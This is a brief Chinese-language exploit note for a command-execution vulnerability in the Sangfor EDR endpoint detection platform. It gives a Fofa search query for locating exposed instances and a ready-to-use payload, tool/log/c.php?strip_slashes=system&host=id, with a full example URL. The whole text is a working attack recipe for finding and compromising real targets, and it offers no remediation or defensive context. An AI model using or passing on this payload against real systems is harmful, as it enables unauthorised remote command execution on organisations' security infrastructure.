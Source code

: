 深信服EDR命令执行
漏洞参数 host，直接进行命令执行
Fofa:语法 title=“终端检测响应平台”

payload

tool/log/c.php?strip_slashes=system&host=id

https://192.168.1.1:9443/tool/log/c.php?strip_slashes=system&host=id
